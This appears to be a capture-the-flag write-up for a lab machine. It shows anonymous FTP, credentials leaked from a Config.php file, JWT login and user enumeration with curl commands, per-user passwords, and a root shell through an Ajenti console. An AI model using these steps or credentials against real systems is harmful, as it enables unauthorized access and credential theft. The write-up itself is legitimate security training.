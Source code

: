 ![](./logo.png)

# USER

Running `nmap` we find an `ftp` endpoint with anon bind

With a message:

```
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of 
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies ! 

Derry
```

We have two other `http` endpoints:

```
3000: Returns JSON with a failed auth message (JWT)
8000: Ajenti console
```

`Config.php` endpoint is available with credentials:

```
root
Zk6heYCyv6ZE9Xcg
```

Working with JWT we have a `/login` endpoint

I attempted a 'none' attack on JWT, but no result

Using the credentials found from the `Config.php` file we can authenticate as admin:

```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' http://10.10.10.137:3000/login
```

That returns a token like:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MDYzMjM2LCJleHAiOjE1NTkxNDk2MzZ9.TTmBKpRcZsJe83kweqmfxbt1sQVLXlbsSBHSBnK-1bI
```

Giving us a token that can be added to a request like:

```
Authorization: Bearer <TOKEN>
```

This can be used like so to query the `/users` endpoint
```
curl \
    --header "Content-Type: application/json" \
    --header "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MDYzMjM2LCJleHAiOjE1NTkxNDk2MzZ9.TTmBKpRcZsJe83kweqmfxbt1sQVLXlbsSBHSBnK-1bI" \
    http://10.10.10.137:3000/users
```

Giving us:
```json
[
    {"ID":"1","name":"Admin","Role":"Superuser"},
    {"ID":"2","name":"Derry","Role":"Web Admin"},
    {"ID":"3","name":"Yuri","Role":"Beta Tester"},
    {"ID":"4","name":"Dory","Role":"Supporter"}
]
```

Requesting the endpoint for each user gives us a password for each user!

e.g.
```
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```

The `/management` endpoint provides us with another `root:password` combination. This can be used for the `ajenti` endpoint. This application lets us spawn a management shell. 

This places us on the box as `root` to we can access the `user.txt` and `root.txt`

### Endpoints:
The `/management` endpoint was only found by `ZAP` because `Gobuster` filters out 401 results. Future note: Make sure to dirbust with two applications